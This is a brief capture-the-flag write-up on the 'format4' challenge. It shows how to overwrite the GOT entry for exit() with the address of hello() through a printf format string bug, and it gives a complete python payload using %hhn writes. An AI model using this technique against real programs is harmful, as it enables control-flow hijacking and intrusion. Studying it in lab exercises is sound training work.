

# format4

this challenge is focus on hijacking the control flow of the program using ```printf``` format string bug as the last the program it takes a user input and tries to print it using ```prinf```.



First i needed to find the GOT table to overwrite the ```exit()``` function ptr to point to the new function ```hello()```,for that i used ```objdump -TR ./format4``` and got the address at ```08049724``` and for the ```hello()``` function i used ```objdump -t ./format4 | grep hello``` at address ```080484b4```.
As the last challenge to overwrite the value at this address we would write a byte each time so ```08049724``` then ```08049725``` and so on..

# Crafting the payload

so at first we have our 16 bytes and the first byte needed is ```0xb4``` which is 180 decimal so we 180 - 16 is 164 so first padding 164.
Second is ```0x84``` 132 in decimal so we 256 - 180 = 76 and then we add 132 so we get 208 making the 2nd padding
Third is ```0x04``` 4 in decimal so we need to wrap again making it 128.
Fourth is ```0x08``` 8 in decimal, while we should add just 4 more chars to make it 8 for some reason unknown to me it didnt work and got to ```0x0b``` instead of ```0x08``` fixing it was just to wrap one more time adding a padding of 260.

```python -c 'print("\x24\x97\x04\x08\x25\x97\x04\x08\x26\x97\x04\x08\x27\x97\x04\x08" + "%164x" + "%4$hhn" + "%208x" + "%5$hhn" + "%128x" + "%6$hhn" +"%260x" +"%7$hhn")'| ./format4```

